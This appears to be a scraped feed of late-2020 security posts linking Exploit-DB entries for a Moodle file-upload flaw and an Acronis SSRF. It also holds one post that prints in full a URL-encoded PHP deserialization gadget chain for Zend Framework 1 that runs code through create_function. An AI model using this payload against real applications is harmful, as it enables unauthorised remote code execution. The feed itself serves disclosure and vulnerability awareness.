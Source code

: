 <table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49114">
https://www.exploit-db.com/exploits/49114
</a>
<blockquote>
Moodle 3.8 - Unrestricted File Upload.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# freedomf0x
`2020-11-27 12:39:26`

<blockquote>
New gadget chain for deserialization in Zend Framework applications. Triggers on __destruct(), gives RCE and works in PHP 7. 

O:8:\&quot;Zend_Log\&quot;:1:{s:11:\&quot;%00*%00_writers\&quot;%3Ba:1:{i:0%3BO:20:\&quot;Zend_Log_Writer_Mail\&quot;:5:{s:16:\&quot;%00*%00_eventsToMail\&quot;%3Ba:1:{i:0%3Bi:1%3B}s:22:\&quot;%00*%00_layoutEventsToMail\&quot;%3Ba:0:{}s:8:\&quot;%00*%00_mail\&quot;%3BO:9:\&quot;Zend_Mail\&quot;:0:{}s:10:\&quot;%00*%00_layout\&quot;%3BO:11:\&quot;Zend_Layout\&quot;:3:{s:13:\&quot;%00*%00_inflector\&quot;%3BO:21:\&quot;Zend_Filter_Inflector\&quot;:1:{s:9:\&quot;%00*%00_rules\&quot;%3Ba:1:{s:6:\&quot;script\&quot;%3Ba:1:{i:0%3BO:20:\&quot;Zend_Filter_Callback\&quot;:2:{s:12:\&quot;%00*%00_callback\&quot;%3Bs:15:\&quot;create_function\&quot;%3Bs:11:\&quot;%00*%00_options\&quot;%3Ba:1:{i:0%3Bs:0:\&quot;\&quot;%3B}}}}}s:20:\&quot;%00*%00_inflectorEnabled\&quot;%3Bb:1%3Bs:10:\&quot;%00*%00_layout\&quot;%3Bs:20:\&quot;){}phpinfo()%3Bexit%3B\/*\&quot;%3B}s:22:\&quot;%00*%00_subjectPrependText\&quot;%3BN%3B}}}

https://gist.github.com/YDyachenko/6f60709ce0fc346d0cc0252e07c6aa38
</blockquote>

<table><tr><td><b>→</b><a href="https://gist.github.com/YDyachenko/6f60709ce0fc346d0cc0252e07c6aa38">
https://gist.github.com/YDyachenko/6f60709ce0fc346d0cc0252e07c6aa38
</a>
<blockquote>
`__destruct` Gadget chain for ZF1. GitHub Gist: instantly share code, notes, and snippets.
</blockquote>
</td></tr></table>

---

# defcon_news
`2020-11-27 11:53:19`

<blockquote>
[webapps] Acronis Cyber Backup 12.5 Build 16341 - Unauthenticated SSRF
https://www.exploit-db.com/exploits/49113

via Exploit Database
</blockquote>

